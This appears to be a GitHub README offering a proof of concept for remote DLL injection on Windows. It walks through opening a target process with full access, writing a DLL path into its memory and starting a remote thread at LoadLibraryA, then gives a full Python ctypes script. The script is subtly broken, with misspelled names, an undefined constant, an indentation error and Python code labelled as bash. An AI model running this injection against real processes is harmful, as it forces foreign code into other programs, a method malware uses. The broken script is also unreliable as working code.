 # Remote DLL Injection
## Overview
This POC demonstrates a technique known as remote DLL injection. The goal is to force a target process (for example, Notepad) to load an external DLL (Dynamic Link Library). The process involves three main steps:

  1. Allocating Memory in the Remote Process: Reserve a block of memory in the target process’s address space.
  2. Writing the DLL Path: Write the path (as a byte string) of the DLL into the allocated memory.
  3. Forcing the DLL to Load: Use the Windows API function LoadLibraryA—located via GetProcAddress on kernel32.dll—by creating a remote thread that calls it, passing the address of the DLL path in memory.

This technique is commonly used for injecting code into a process for either legitimate purposes (such as extending the functionality of a running application) or by malware for nefarious reasons.

## Detailed Code Walkthrough

1. Importing Modules and Defining API Functions
    1. ctypes and wintypes:
       The code imports the ctypes module and its wintypes submodule. This allows the script to interact directly with Windows API functions. The API calls are performed by calling functions in kernel32.dll, a core Windows DLL.

    2. Function Prototypes:
       The POC defines the argument types (argtypes) and return types (restype) for the following functions:
         1. OpenProcess: Opens an existing process given its process ID (PID) with specific access rights.
         2. VirtualAllocEx: Allocates a block of memory within the address space of the target process.
         3. WriteProcessMemory: Writes data (the DLL path) into the allocated memory in the remote process.
         4. GetModuleHandleA: Retrieves a handle to a loaded module (here, kernel32.dll).
         5. GetProcAddress: Finds the address of an exported function (in this case, LoadLibraryA) within a module.
         6. CreateRemoteThread: Creates a new thread in the remote process that will call the specified function—in our case, to load the DLL.

    3. Defining Structures:
       The code also defines the _SECURITY_ATTRIBUTES structure. Although this structure isn’t used in every detail, it is necessary when creating a remote thread to specify attributes like whether handles are inherited by child processes.

2. Preparing the Injection Payload
   1. DLL Path String:
   A byte string variable named dll holds the path to the compiled DLL file that you intend to inject. This must be a valid
   path that the target process can access.

   2. Process Identification:
   The variable pid is set to the target process’s ID (for example, Notepad’s PID). This value is used to open the process and
   manipulate its memory.

3. Opening the Target Process
   1. Using OpenProcess:
   The OpenProcess function is called with the PROCESS_ALL_ACCESS flag, which grants the maximum level of access required for
   injection.
   If OpenProcess fails (returns a NULL handle), an error is raised. Successful retrieval of a valid handle is critical for subsequent operations.
   ```bash
handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)
if not handle:
    raise WinError()
print("Handle obtained ⇒", hex(handle))
   ```
4. Allocating Memory in the Remote Process
   1. VirtualAllocEx Call:
   VirtualAllocEx is used to reserve a block of memory in the target process’s address space.
   The size of the memory allocated is determined by the length of the DLL path string. The allocation is done using the
   flags MEM_COMMIT | MEM_RESERVE, and the memory is initially marked as PAGE_READWRITE so that it can be modified.
## Code
   ```bash
remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE)
if not remote_memory:
    raise WinError()
print("Memory allocated ⇒", hex(remote_memory))
   ```
5. Writing the DLL Path into Remote Memory
   1. WriteProcessMemory Call:
   Once memory is allocated, the DLL path is written into the remote process using WriteProcessMemory.
   This step places the path (as a string) into the process’s memory space so that it can later be used by the LoadLibraryA
   function.
## Code
   ```bash
write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)
if not write:
    raise WinError()
print("Bytes written ⇒", dll)
   ```
6. Locating the LoadLibraryA Function
   1. Retrieving the Address of LoadLibraryA:
   The function GetModuleHandleA is used to get a handle for kernel32.dll—a critical module that contains the LoadLibraryA
   function.
   Then, GetProcAddress retrieves the address of LoadLibraryA within that module.
   This address will be the entry point for loading the DLL into the remote process.
## Code
   ```bash
load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")
print("LoadLibrary address ⇒", hex(load_lib))
   ```
7. Creating a Remote Thread to Load the DLL
   1. Executing the DLL Injection:
   With the address of LoadLibraryA and the memory location holding the DLL path, CreateRemoteThread is invoked.
   This function creates a new thread in the target process that begins execution at the LoadLibraryA function, with the
   argument being the address of the DLL path in remote memory.
   When the thread runs, LoadLibraryA loads the DLL, thus completing the injection.
## Code
   ```bash
rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```

## Code ~ Remote DLL Injection
## Code
   ```bash
from ctypes import *
from ctypes import wintypes

kernel32 = windll.kernel32
LPCTSTR = c_char_p
SIZE_T = c_size_t

OpenProcess = kernel32.OpenProcess
OpenProcess.argtypes = (wintypes.DWORD, wintypes.BOOL, wintypes.DWORD)
OpenProcess.restype = wintypes.HANDLE

VirtualAllocEx = kernel32.VirtualAllocEx
VirtualAllocEx.argtypes = (wintypes.HANDLE, wintypes.LPVOID, SIZE_T, wintypes.DWORD, wintypes.DWORD)
VirtualAllocEx.restype = wintypes.LPVOID

WriteProcessMemory = Kernel32.WriteProcessMemory
WriteProcessMemory.argtypes = (wintypes.HANDLE, wintypes.LPVOID, wintypes.LPCVOID, SIZE_T, POINTER(SIZE_T))
WriteProcessMemory.restype = wintypes.BOOL

GetModuleHandle = kernel32.GetModuleHandleA
GetModuleHandle.argtypes = (LPCTSTR, )
GetModuleHandle.restype = wintypes.HANDLE

GetProcAddress = kernel32.GetProcAddress
GetProcAddress.argtypes = (wintypes.HANDLE, LPCTSTR)
GetProcAddress.restypes = wintypes.LPVOID

class _SECURITY_ATTRIBUTES(Structure):
	_fields_ = [('nlengths', wintypes.DWORD),
							('lpSecurityDescriptor', wintypes.LPVOID),
							('bInheritHandle', wintypes.BOOL),]

SECURITY_ATTRIBUTES = _SECURITY_ATTRIBUTES
LPSECURITY_ATTRIBUTES = POINTER(_SECUIRTY_ATTRIBUTES)
LPTHREAD_START_ROUTINE = wintypes.LPVOID

CreateRemoteThread = kernel32.CreateRemoteThread
CreateRemoteThread.argtypes = (wintypes.HANDLE, LPSECURITY_ATTRIBUTES, SIZE_T, LPTHREAD_START_ROUTINE, wintypes.LPVOID, wintypes.DWORD, wintypes.LPDWORD)
CreateRemoteThread.restype = wintypes.HANDLE

MEM_COMMIT = 0x00001000
MEM_RESERVE = 0x00002000
PAGE_READWRITE = 0x04
EXECUTE_IMMEDIATELY = 0X0
PROCESS_ALL_ACCESS = (0X000F0000 | 0X00100000 | 0X00000FFF)

dll = b"<path to the compiled dll file>"

pid = 2160 #process id of a process such as Notepad

handle = OpenProcess(PROCESS_ALL_ACCESS, False, pid)

if not handle:
	raise WinError()
	
print("Handle obtained => {0:X}".format(handle))

remote_memory = VirtualAllocEx(handle, False, len(dll) + 1, MEM_COMMIT | MEM_RESERVE, PAGE_READ)

	if not remote_memory:
		raise WinError()

print("Memory allocated => ", hex(remote_memory))

write = WriteProcessMemory(handle, remote_memory, dll, len(dll) + 1, None)

if not write:
	raise WinError()

print("Bytes written => {}".format(dll))

load_lib = GetProcAddress(GetModuleHandle(b"kernel32.dll"), b"LoadLibraryA")

print("LoadLibrary address => ", hex(load_lib))

rthread = CreateRemoteThread(handle, None, 0, load_lib, remote_memory, EXECUTE_IMMEDIATELY, None)
   ```
